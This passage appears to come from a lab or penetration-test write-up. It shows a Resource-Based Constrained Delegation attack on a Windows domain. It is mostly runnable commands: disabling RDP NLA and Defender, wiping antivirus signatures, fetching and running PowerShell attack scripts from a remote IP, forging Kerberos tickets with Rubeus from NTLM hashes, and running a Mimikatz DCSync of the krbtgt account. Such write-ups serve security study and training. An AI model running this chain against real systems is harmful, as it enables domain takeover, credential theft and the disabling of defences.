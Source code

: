 ## RBCD from Windows

Enable RDP, disable NLA and jump straight on Gelus:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Disable Defender, AMSI, remove all signatures to run Mimikatz in peace and quiet and `runas /netonly` as jops to be able to ask for TGS (enter junk as the cleartext password) (on the left).

Then ask for TGT with Rubeus using jops NTLM hash and do the rest part of the delegation abuse (on the right).

I am using the [PowerView fork](https://exploit.ph/powerview.html) here (call it PowerView 4.0) to automate the RBCD attack routine.

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
PS > Set-MpPreference -DisableIOAVProtection $true
PS > cmd /c "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2004.6-0\MpCmdRun.exe" -RemoveDefinitions -All

PS > runas /netonly /user:roundsoft.local\jops powershell
Enter the password for roundsoft.local\jops: qwerty123!@#
```

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.14.14.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.14.14.37/powerview4.ps1")
PS > .\Rubeus.exe asktgt /user:jops /rc4:f7b8e6e5af23f06fdbb559d1888261fa /ptt /domain:roundsoft.local /dc:SHINRA.roundsoft.local

PS > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PS > Set-DomainRBCD shinra -DelegateFrom fakemachine1337 -Verbose

PS > .\Rubeus.exe s4u /domain:roundsoft.local /user:fakemachine1337 /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:SHINRA$ /msdsspn:LDAP/SHINRA.roundsoft.local /ptt
PS > .\mimikatz.exe "lsadump::dcsync /domain:roundsoft.local /user:ROUNDSOFT\krbtgt" "exit"

PS > Set-DomainRBCD shinra -Clear -Verbose
```
